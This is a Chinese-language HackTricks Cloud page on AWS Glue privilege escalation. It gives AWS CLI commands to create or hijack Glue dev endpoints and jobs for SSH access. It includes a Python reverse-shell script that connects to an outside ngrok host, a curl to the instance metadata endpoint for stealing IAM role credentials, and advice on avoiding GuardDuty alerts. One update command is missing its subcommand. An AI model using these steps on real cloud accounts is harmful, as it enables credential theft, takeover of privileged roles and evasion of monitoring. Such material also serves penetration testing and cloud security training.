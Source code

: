 # AWS - Glue权限提升

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

具有`iam:PassRole`和`glue:CreateDevEndpoint`权限的攻击者可以**创建一个新的AWS Glue开发端点，并将现有的服务角色传递给它**。然后，他们可以通过SSH连接到实例，并使用AWS CLI访问角色具有的权限。
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
现在攻击者只需要**SSH进入开发端点**就可以访问角色凭证。
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
即使在GuardDuty文档中没有明确指出，从Glue实例中泄露凭据是一个坏主意。相反，应该直接从新实例中访问AWS API。

潜在影响：特权升级到指定的Glue服务角色。

### `glue:UpdateDevEndpoint`，(`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

具有`glue:UpdateDevEndpoint`权限的攻击者将能够更新现有Glue开发端点的关联SSH公钥，然后通过SSH访问它，并获得附加角色具有的权限。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
现在攻击者只需要**SSH进入开发端点以访问角色凭证**。应该直接从新实例访问AWS API，以避免触发警报。

**潜在影响：**特权升级到使用的Glue服务角色。

### `iam:PassRole`，(`glue:CreateJob` | `glue:UpdateJob`)，(`glue:StartJobRun` | `glue:CreateTrigger`)

具有这些权限的攻击者可以**创建/更新一个作业并附加任何Glue服务帐户**，然后启动它。该作业可以执行任意的Python代码，因此可以获得反向shell，并用于**窃取附加角色的IAM凭证**。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在影响：**特权升级到指定的Glue服务角色。

### `glue:UpdateJob`

仅凭借更新权限，攻击者就可以窃取已附加角色的IAM凭证。

**潜在影响：**特权升级到已附加的Glue服务角色。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版的HackTricks，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

